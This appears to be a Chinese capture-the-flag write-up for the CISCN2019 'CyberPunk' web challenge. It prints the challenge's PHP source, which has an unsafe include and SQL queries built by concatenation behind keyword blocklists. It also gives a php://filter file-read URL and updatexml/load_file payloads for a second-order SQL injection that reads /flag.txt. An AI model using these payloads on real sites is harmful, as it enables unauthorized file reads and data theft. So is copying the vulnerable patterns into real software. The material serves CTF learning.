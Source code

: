 # [CISCN2019 华北赛区 Day1 Web5]CyberPunk

## 知识点

`文件包含`

`sql注入`

`二次注入`

## 解题

进入首页后在源代码处找到了隐藏信息

![Alt text](G:/CTFWriteUp/buuctf/Web/img/22-1.png)

`LFI`读取文件

```url
?file=php://filter/convert.base64-encode/resource=
```

`index.php`

```php
<?php

ini_set('open_basedir', '/var/www/html/');

// $file = $_GET["file"];
$file = (isset($_GET['file']) ? $_GET['file'] : null);
if (isset($file)){
    if (preg_match("/phar|zip|bzip2|zlib|data|input|%00/i",$file)) {
        echo('no way!');
        exit;
    }
    @include($file);
}
?>
```

`search.php`

```php
<?php

require_once "config.php"; 

if(!empty($_POST["user_name"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){ 
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        if(!$row) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "<p>姓名:".$row['user_name']."</p><p>, 电话:".$row['phone']."</p><p>, 地址:".$row['address']."</p>";
    } else {
        $msg = "未找到订单!";
    }
}else {
    $msg = "信息不全";
}
?>
```

`change.php`

```php
<?php

require_once "config.php";

if(!empty($_POST["user_name"]) && !empty($_POST["address"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $address = addslashes($_POST["address"]);
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        $sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];
        $result = $db->query($sql);
        if(!$result) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "订单修改成功";
    } else {
        $msg = "未找到订单!";
    }
}else {
    $msg = "信息不全";
}
?>
```

`delete.php`

```php
<?php

require_once "config.php";

if(!empty($_POST["user_name"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){ 
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        $result = $db->query('delete from `user` where `user_id`=' . $row["user_id"]);
        if(!$result) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "订单删除成功";
    } else {
        $msg = "未找到订单!";
    }
}else {
    $msg = "信息不全";
}
?>
```

通过代码审计可以发现，`user_name`和`phone`都进行了严格的过滤，但是`address`只用`addslashes()`对预定义字符进行了转义，所以`address`参数为可以利用的注入点。

由于`address`被`addslashes()`转义以后单引号等无法使用，但是更新地址时，会将旧地址保存下来，所以我们只要将在第一次修改地址时输入`SQL`注入语句，在第二次更新时（随便输），第一次更新的`SQL`语句会被调用从而引发`二次注入`。

![Alt text](G:/CTFWriteUp/buuctf/Web/img/22-2.png)

提交订单后修改两次订单，第二次会执行

```sql
address=1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,20)),0x7e),1)#

address=1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),20,50)),0x7e),1)#
```

![Alt text](G:/CTFWriteUp/buuctf/Web/img/22-3.png)

![Alt text](G:/CTFWriteUp/buuctf/Web/img/22-4.png)

因`CISCN`的`flag`是存在根目录下，故读取根目录文件